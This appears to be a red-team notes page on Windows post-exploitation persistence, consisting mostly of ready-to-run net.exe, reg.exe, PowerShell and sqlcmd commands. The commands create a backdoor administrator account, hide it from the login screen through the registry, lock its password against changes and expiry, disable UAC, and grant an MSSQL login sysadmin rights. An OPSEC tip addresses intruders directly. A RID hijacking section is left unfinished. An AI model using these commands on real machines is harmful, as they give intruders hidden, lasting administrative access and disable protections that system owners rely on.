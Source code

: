 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1136
  - windows
---
```

# Living off the Land

## 01 - Create Local User

> [!CAUTION] OPSEC Consideration
> Normally you wouldn't create an account since it is intrusive but hackers had to avoid writing malware on disk as much as possible. Choose your decisions wisely.

### 1.1 - Command Prompt

```
C:\> net.exe user sysadmin s3cur3d+1T /add /y

C:\> net.exe localgroup Administrators sysadmin /add /y
```

Makes the user account invisible from the Windows Login screen

```
C:\> reg.exe add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v sysadmin /t REG_DWORD /d 0 /f
```

Sometimes it's a bit annoying when losing access that somebody changed the password whatever if it's on purpose or accidental. This `/passwordchg:<YES | NO>` option will prevent it from happening.

```
C:\> net.exe user sysadmin /passwordchg:no
```

Never expire the password (this command is intrusive so be careful)

```
C:\> net.exe accounts /maxpwage:unlimited
```

Persistence method to add user account

```
C:\> reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v MS_BACKUP /t REG_DWORD /d 0 /f
```

Disabling UAC that allows the hacker to take full control

```
C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

Enabling UAC to make the admin restrictive

```
C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f
```

### 1.2 - PowerShell

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
New-LocalUser -Name sysadmin -Password $password
Add-LocalGroupMember -Groups Administrators -Member "sysadmin"
```

Persistence method to add user account

```
PS C:\> Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name MS_BACKUP -Type DWord -Value 0
```

Disabling UAC that allows the hacker to take full control

```
PS C:\> Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLUA -Type DWord -Value 0
```

Enabling UAC to make the admin restrictive

```
PS C:\> Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLUA -Type DWord -Value 1
```

### 1.3 - MSSQL

```
C:\> sqlcmd.exe -E [-S <IP>] -U <username> -Q "<query>"
 
1> CREATE LOGIN <username> WITH PASSWORD = '<password>';
2> sp_addsrvrolemember '<username>', 'sysadmin';
3> go
```

## 02 - RID Hijacking

TODO: Fill this heading

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

### Red Team Notes

- [Red Team Notes: Create Account](https://www.ired.team/offensive-security/persistence/t1136-create-account)

- [Red Team Notes: RID Hijacking](https://www.ired.team/offensive-security/persistence/rid-hijacking)